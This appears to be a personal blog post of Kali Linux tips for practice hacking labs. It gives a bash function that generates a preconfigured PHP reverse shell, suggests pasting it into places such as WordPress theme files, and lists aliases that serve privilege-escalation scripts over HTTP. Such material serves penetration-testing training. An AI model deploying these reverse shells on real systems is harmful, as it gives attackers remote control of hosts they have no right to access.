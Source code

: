 ```yaml
---
layout:     post
title:      Kali Linux QoL
date:       2019-09-21 15:20:20
author:     J
summary:    Life's too short
categories: General
thumbnail:  thumbs-up
tags:
 - Linux
 - Kali
 - PHP Reverse Shell
---
```


This post will be updated once in a blue moon. Just wanted to share some of my stuff which I use as I think it's good to automate certain repeated processes when hacking boxes. Life's too short to be wasting time on such things.

---

## PHP Reverse Shell Generator


This particular script is for generating a PHP reverse shell with IP address and port preconfigured in the current working directory. This is particularly useful if you find that your IP address has changed due to changing VPNs or just that a new one was issued to you when reconnecting. 

To use, just append it to your `.bashrc` file in your user's home directory and restart your terminal. The original script can be found on [Pentestmonkey here][1]. Replace the ip address in the script to 'ipaddress' and set the port to 443.

Alternatively, you can download the [pre-modified version on my Github][2] to use with this script. Change the directory in the script to where you saved the script to.

Usage: `phprev <Interface> <Optional: Listening Port>`
<br>e.g. `phprev tun0 1234`


~~~bash
# Create PHP reverse shell in current directory. Usage example: phprev tun0 1234
# Defaults to port 443 if port is not specified

function phprev() {
        phprevshelldir=/root/Try-Harder/Scripts/Shells/php-reverse-shell.php #CHANGE THIS
        if [ $# -eq 0 ]; then echo "Please define interface"
        else
            revip=`ifconfig $1 | head -n2 | tail -n1 | awk '{print $2}' `
            cp $phprevshelldir ./rev.php && sed -i 's/ipaddress/'$revip'/g' rev.php
                if [ $# -eq 2 ]; then
                revport=$2 ;
                sed -i 's/443/'$2'/g' rev.php
                else revport=443
                fi
            echo "PHP reverse shell(rev.php) created and configured to connect back to:" $revip:$revport
        fi
}
~~~

If you need to copy and paste the script somewhere(e.g wordpress theme files), just use the following to have the contents copied to your clipboard quickly:

~~~bash
cat rev.php | xclip -sel clip
~~~

---

## Bash Aliases


Sometimes you have many folders that you need to navigate quickly, or long commands that you type. These can be shortened, saving lots of time and gives great convenience in the long run. This is a sample of what I have inside my `/root/.bash_aliases` file. If you don't have it, just create it. After adding aliases in, restart your terminal.

~~~bash
# Directories

alias htb='cd ~/0x4a/Hackthebox'
alias vhl='cd ~/0x4a/VirtualHackingLabs'
alias pwk='cd ~/0x4a/PWK'
alias scripts='cd ~/Try-Harder/Scripts'
alias linenum='cd ~/Try-Harder/Scripts/Linux-PrivEsc'
alias hostlse='cd ~/Try-Harder/Scripts/Linux-PrivEsc && python -m SimpleHTTPServer'
alias armoury='cd ~/The-Armoury'

# vpn

alias ovpn='openvpn ~/0x4a/Hackthebox/openvpn/Dreamscent.ovpn'

# Other

alias hosts='nano /etc/hosts'
alias tun0='ifconfig tun0 | head -n2'
alias ppp0='ifconfig ppp0 | head -n2'
alias pyhttp='python -m SimpleHTTPServer'
~~~

[1]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[2]: https://github.com/Dreamscent/Try-Harder/blob/master/Scripts/Shells/php-reverse-shell.php
